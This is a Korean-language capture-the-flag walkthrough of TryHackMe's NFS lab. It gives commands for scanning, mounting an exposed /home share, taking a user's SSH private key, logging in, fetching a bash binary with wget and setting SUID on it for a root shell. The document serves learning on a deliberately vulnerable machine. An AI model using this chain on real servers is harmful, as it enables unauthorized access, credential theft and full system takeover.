







# TryHackMe - Network Services 2 (NFS)

> 본 실습은 TryHackMe 플랫폼의 Network Services 2 실습 중 NFS(Network File System)를 대상으로 하여 정보 수집, 취약점 분석, SSH 접근, 권한 상승 과정을 수행한 결과입니다.

---

## 1. 실습 개요

- **타깃 머신 IP**: `10.10.155.201`
- **공격 머신 환경**: Kali Linux 2023.4
- **실습 일자**: 2025-04-15
- **사용 도구**:
  - `nmap`: 포트 및 서비스 정보 수집
  - `showmount`: NFS 공유 디렉토리 확인
  - `mount`: NFS 공유 디렉토리 마운트
  - `chmod`: 파일 권한 설정
  - `wget`: bash 바이너리 다운로드
  - `ssh`: 시스템 로그인 및 루트 권한 획득

---

## 2. 정보 수집

### 2.1 nmap 포트 스캔

```bash
nmap -A -vv -T4 -p- 10.10.155.201 -oN nmap_scan.txt
```

- 결과 요약:

| 포트 | 서비스 | 설명 |
|------|--------|------|
| 22/tcp | ssh | SSH 서비스 (OpenSSH 7.6p1) |
| 111/tcp | rpcbind | RPC 서비스 |
| 2049/tcp | nfs_acl | NFS 파일 공유 서비스 |
| 34721/tcp, 48035/tcp, 57911/tcp | mountd | NFS 마운트 관련 데몬 |
| 32923/tcp | nlockmgr | 파일 잠금 서비스 |

- 상세 스캔 결과: [nmap_scan.txt](./nmap_scan.txt) 파일 참조



---

## 3. 실습 과정

### 3.1 showmount를 통한 공유 디렉토리 확인

- 설명: NFS 서비스가 어떤 디렉토리를 외부에 공유하고 있는지 확인하기 위해 사용했습니다.
```bash 
showmount -e 10.10.155.201
```


---

### 3.2 NFS 공유 디렉토리 마운트

- 설명: NFS 공유 디렉토리를 로컬 시스템의 /tmp/mount 경로에 마운트하여 내부 파일을 열람할 수 있도록 했습니다. -nolock은 잠금 기능을 비활성화하여 호환성을 높입니다.
```bash
mkdir /tmp/mount
mount -t nfs 10.10.155.201:/home /tmp/mount -nolock
```



---

### 3.3 NFS 공유 디렉토리에서 SSH 개인 키 획득

- 공유 디렉토리 내 `/home/cappucino/.ssh/id_rsa` 발견

- 개인 키 내용: [id_rsa.txt](./id_rsa.txt) 파일 참조



---

### 3.4 SSH 접속

- 설명: 마운트된 NFS 디렉토리에서 획득한 개인 키(id_rsa)를 이용해 타깃 머신에 SSH로 접속하였습니다. chmod 600은 키 파일 권한을 설정해 SSH 클라이언트에서 거부되지 않도록 합니다.
```bash
chmod 600 id_rsa
ssh -i id_rsa cappucino@10.10.155.201
```



---

### 3.5 Kali 터미널에서 루트 쉘을 위한 바이너리 준비

- 설명: 타겟 머신과 동일한 환경에서 동작하는 bash 바이너리를 다운로드하여 업로드할 준비를 했습니다. 이후 SUID 권한을 부여하여 루트 쉘을 획득하기 위한 전처리 단계입니다.
```bash
wget https://raw.githubusercontent.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
```



---

### 3.6 공유 디렉토리에 bash 복사 후 SUID 권한 부여

- 설명: 공유된 디렉토리에 bash 파일을 복사한 뒤, chmod +x로 실행 권한을 준 후, chmod +s로 SUID 비트를 설정하여 해당 파일을 실행할 때 소유자(root)의 권한으로 실행되도록 구성했습니다.
```bash
cp bash /tmp/mount/bash
cd /tmp/mount
chmod +s bash
chmod +x bash
```



---

### 3.7 SSH 쉘에서 bash 실행 → 루트 권한 획득

- 설명: SUID가 설정된 bash 바이너리를 실행하면서 -p 옵션을 주어 현재 파일 소유자의 권한(root)으로 쉘을 실행했습니다. 이를 통해 루트 권한 획득에 성공했습니다.
```bash
cd /home
./bash -p
```

- 획득한 플래그: THM{nfs_got_pwned}



---

## 4. 배운 점

- NFS 서비스는 잘못 설정될 경우, 외부 사용자에게 심각한 권한을 부여할 수 있다.
- `root_squash` 설정이 비활성화된 경우, 업로드한 파일에 root 권한을 부여할 수 있다.
- NFS 공유된 디렉토리 접근을 통해 `ssh` 키를 획득 후 타겟 사용자로 로그인할 수 있다.
- SUID 비트가 설정된 bash 파일을 실행하여 root 권한 획득이 가능하다.


